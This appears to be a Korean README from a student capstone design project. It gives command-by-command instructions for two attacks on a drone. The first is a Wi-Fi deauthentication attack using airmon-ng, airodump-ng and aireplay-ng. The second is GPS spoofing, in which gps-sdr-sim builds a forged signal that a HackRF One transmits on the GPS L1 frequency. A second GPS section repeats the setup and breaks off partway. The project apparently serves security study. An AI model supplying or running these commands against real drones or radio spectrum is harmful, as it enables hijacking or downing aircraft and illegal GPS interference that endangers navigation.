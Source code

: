캡스톤디자인I 코드
=================


#1. Deauth Attack
---------------

무선 랜카드가 장착된 Kali Linux 환경에서 행한다.

> 불필요한 프로세스를 종료하고, 공격에 이용할 무선랜의 이름을 확인한다.
>
> ```bash
> airmon-ng check kill
> iwconfig
> ```


> 무선랜을 모니터 모드로 전환하고, 드론 AP의 패킷을 수집한다.
>
> ```bash
> airmon-ng start [무선랜 이름]
> airodump-ng [무선랜 이름] --essid-regex [드론의 MAC주소] -w [저장 파일명]
> ```


> 수집한 패킷에서 제어 기기의 MAC주소를 확인하고, 인증해제 공격을 실행한다.
>
> ```bash
> iwconfig [무선랜 이름] channel [드론 AP의 채널]
> aireplay-ng --deauth [공격 시간] -a [드론의 MAC주소] -c [제어 기기의 MAC주소] [무선랜 이름]
> ```



2.GPS Spoofing
---------------

HackRF-One을 연결한 Linux 환경에서 행한다.

> GPS-SDR-SIM Github를 클론 설치한다.
>
> ```bash
> git clone https://github.com/osqzss/gps-sdr-sim.git
> ```


> 설치된 디렉토리로 이동해 Spoofing할 위도/경도를 지정한 gps-sdr-sim 파일을 생성한다.
>
> ```bash
> cd ./gps-sdr-sim
> gcc gpssim.c -lm -O3 -o gps-sdr-sim
> ```


> 나사에서 최신 천체 파일을 다운로드하고, 압축해제한다.
>
> ```bash
> cp /home/user/[파일명.gz] ./gps-sdr-sim
> gzip -d [파일명.gz]
> ```


> 압축해제된 천체 파일로 위도, 경도를 지정한 gpssim.bin 파일을 생성한다.
>
> ```bash
> ./gps-sdr-sim -e [파일명] -l [위도],[경도] -b 8
> ```


> HackRF_One으로 변조된 좌표의 GPS 신호를 전송한다.
>
> ```bash
> hackrf_transfer -t gpssim.bin -f 1575420000 -s 2600000 -a 1 -x 40
> ```

#2. Gps Spoofing Attack
---------------
> https://github.com/osqzss/gps-sdr-sim에서 gps-sdr-sim을 clone해온다.
> ```
> git clone https://github.com/osqzss/gps-sdr-sim.git
> ```

> gps-sdr-sim 디렉토리로 이동해서 아래 명령어를 입력해준다.
> ```
> gcc gpssim.c -lm -O3 -o gps-sdr-sim
> ```
> 이렇게 하면 ELF라는 리눅스 실행파일이 생성된다.

> 나사 데이터 센터에서 가장 최근의 GPS 천체력 파일을 다운받고, 다운받은 파일의 압축을 해제한다.
> ```
> mv brdc1520.24n.gz /gps-sdr-sim
> cp /home/seulki/brdc1520.24n.gz ./brdc1520.24n.gz
> ```



[hackrf](https://github.com/greatscottgadgets/hackrf.git)
[gps-sdr-sim](https://github.com/osqzss/gps-sdr-sim)
